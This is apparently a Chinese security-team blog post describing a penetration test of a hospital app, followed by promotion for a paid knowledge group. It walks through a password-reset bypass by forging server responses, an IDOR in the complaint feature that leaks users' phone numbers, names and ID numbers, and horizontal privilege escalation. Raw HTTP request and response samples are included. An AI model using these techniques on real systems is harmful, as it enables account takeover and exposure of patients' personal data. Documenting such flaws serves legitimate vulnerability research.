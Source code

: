 #  记某医院APP的一次逻辑漏洞挖掘   
原创 chobits02  C4安全团队   2025-05-05 05:58  
  
![httpsu.wechat.comMMNIFu0mUhIchBxkan0Zozgs=1.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasaAjJImJDkVXQV86YymyOYWfj3nicwJ11Jp7ySq1HjBazRjibFW7fEbWg/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "httpsu.wechat.comMMNIFu0mUhIchBxkan0Zozgs=1.png")  
  
**扫码加内部知识圈**  
  
获取漏洞资料  
  
  
  
在某次渗透测试中，对某医院的APP进行抓包测试，主要挖掘了一些逻辑漏洞，记录  
如下：  
  
抓包APP请求  
的网站地  
址，复制到网页中打开  
  
通过“找回密码”时由于只会验证返回包内容，可以抓包将返回包替换，成功重置了任意用户的密码，这会对系统正常用户的业务处理造成影响  
  
访问风险地址，输入重置的密码，手机号、证件号，然后  
首先是短信验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLU8p6q4c2ORgR1CSKOAhYEymQmSv9PkSwGic8s7rKV7ntlFmPeAhFXdQg/640?wx_fmt=png&from=appmsg "")  
  
正确的返回包应该如下：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUJMK1MgCNOMp0E1Bd3pROkmASShGbqFu1MCTFE7FB4kfvCfkweXlrZw/640?wx_fmt=png&from=appmsg "")  
  
修改mobile为系统中存在的手机号（通过信息手机获得的已经注册的病人手机号），抓取返回包替换成下面的数据包，绕过前端验证成功进入下一步验证身份证  
  
```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Access-Control-Allow-Origin: http://xxxx
Access-Control-Allow-Headers: Origin, x-requested-with, Content-Type, Accept,X-Cookie
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,OPTIONS,DELETE
Content-Type: application/json;charset=UTF-8
Date: Sat, 22 Jan 2022 13:01:24 GMT
Connection: close
Content-Length: 125
 
{"msg":"验证码正确","code":1,"data":{"mobile":"xxxx","sign":"1ab261dcb1d4993abf7700e2bdbf583f","hascard":"true"}}
```  
  
身份证正确的返回包应该如下，同理抓取其他地方的成功返回包直接替换  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUbgbwe0jMsAJia9KB65ICRNA1XWu2gW0qhInqRfxAia4ibDT5Ka4oic57Fg/640?wx_fmt=png&from=appmsg "")  
  
绕过前端对证件号的验证判断，进入最后一步修改个人信息。发包，最后返回信息修改成功。此时对应手机号的密码被成功重置  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUVPHian6VJnqD8cHJ5f2mnMWYIYoD1b7MGos80EQ4v88oickExEFpCEYA/640?wx_fmt=png&from=appmsg "")  
  
测试在APP和网页端都能使用重置的密码成功登陆，重置对应手机账号的密码为Aa  
123456  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLU6s0ZDW6iaGHTtPMnU7hJ82XNtIt89WRk9lEvtBufibJVXjOyickGI02AQ/640?wx_fmt=png&from=appmsg "")  
  
  
此外在APP的投诉举报处，通过修改a  
ccountid  
，可以以他人的账号身份进行投诉举报  
。  
  
通过注册登录APP，对投诉举报的提交进行抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUuKk8CSbDssjlGLdrMRQlRLc4icZI5JUo4iaNSqBtu7ZIIW59AX9V4FMA/640?wx_fmt=png&from=appmsg "")  
  
数据包如下：  
```
POST /api/authex/hpass/cloudClinic/saveComplain?t=1 HTTP/1.1
Host: xxxx
Content-Length: 187
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Linux; Android 6.0.1; MuMu Build/V417IR; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/66.0.3359.158 Mobile Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.9
Connection: close
 
{"accountid":"149773","demandTypeCode":"1","complaintedPsnName":"1","issueOccurDatetime":"2022-01-22 01:04","complaintTypeCode":"0","complaintTitle":"1","complaintText":"1","address":"1"}
```  
  
修改a  
ccountid  
，可以以他人账号id进行投诉  
  
此时返回结果中会返回账号的手机号、姓名、身份证号码的敏感信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUNicyLv4wq3M8oATBneFicTMk1BPwKoaAGPaDDZQ0otdia2LMj65QeZH5Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUUQDzVAXXXsZ5K4fToxT1xzo3AnAUiaicSLekPJFFP5GTP4JPkYxQavnQ/640?wx_fmt=png&from=appmsg "")  
  
  
此外还存在横向越权  
  
登陆注册一个账号，在修改信息时修改  
id值就可对不同用户进行信息修改  
  
数据包如下，指定id为其他账号的id，发包之后显示修改成功  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUnxuK3w3WTYvbv99nibsRBq1UbV9m9fIKKLcOH7Oc26okkWT2eDq9Jdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUENxh7cFq1Ox7wO6wAzicibC56zoicxXXia8TuHrPa6PMQPmvvpOQXkoPhg/640?wx_fmt=png&from=appmsg "")  
  
修改成功后，再点击查看完善个人信息，可以看到另外一个账号的信息被修改成功，如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLU1NuQpNfOCjHhDeIdDB1RhYwHOQLTVGtK1TuzRyywZsxz05wibGvecrA/640?wx_fmt=png&from=appmsg "")  
  
验证逻辑漏洞存在  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkysic7NSibpvLZNxicl3gia2AQgicckC6D0UmMgUvPYkMGUrVO11qVoiaN5UQ/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
内部圈子介绍  
  
  
我们是C4安全团队  
，师傅们别忘了  
关注和  
点赞，团队的成长离不开你们，感谢师傅们，Ciallo～(∠・ω< )⌒★~  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkh1aPOciaQusEdbRfFxibYX9MQUfcsgzH7DaD69vsgW2HgSiceoqqrongQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
圈子专注于更新  
SRC挖掘  
/代码审计  
相关：  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/HaJr68L1tTTex7g7gA9hIFRAorxicicgGM4NFxNNVqAaFBL5ictHcaU9zf0zmhChIgNAvRrxUSV1l2FyI6ucawvXg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
**内部圈子**  
**专栏介绍**  
  
Freebuf知识大陆内部共享资料截屏详情如下  
  
（每周保持更新）  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkzvdgfFtJotO7T8dD5ATKyyeuQibDwZoltOB3Uy5nRicGDxCEpwrlRYNg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
**知识大陆——安全渗透感知大家族**  
****  
  
圈子券后现价   
￥39.9元  
  
如果你有兴趣加入，抓住机会不要犹豫，价格只会上涨，不会下跌  
  
圈子人数大于400人 69.9元/年  
  
圈子人数  
大于600人 119.9元/年  
  
（新人优惠券折扣  
20  
￥，扫码或者私信开头二维码即可领取更多优惠）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJR7GIiatmMxDnlYcGJjOmibZcd7ribwq1zichkjwIczCqhZ1zpXib3VcJpMWlSLfa6qpXwfVy6hguOXdibA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
内部圈子——  
群  
友反馈--价格优惠，内容优质  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkZXuRl4vOBsaQwJK1AbsPcGMiczaPickCuIzicPiblfFjyjic3aeuzqVLLhg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkpxDWia5shmzQH4UialWGUCsoWYMHVpcEtUxF7RsfJaHKl9gsVWEjqAuw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
漏洞源码圈子如下-价格固定为39.9  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcjib4zibjfzUaQjLqIXcx6277rE9eP9fibRBBnia5neIEwnkEibNW97ia5FOw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic&wx_co=1 "")  
  
  
团队公开交流群  
  
QQ群和微信群都已建立，方便常用QQ或微信的师傅加入团队公开交流群，交流各类网安、实战方面的问题~  
  
（微信群①群已满200人，需要邀请加开头运营二维码才能加入，②群如下）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJR7GIiatmMxDnlYcGJjOmibZcndbvuc3sLTpCmoy13OG7G27MS0EJyiaKAG5l6W48rzvt67Z8umUXibAQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
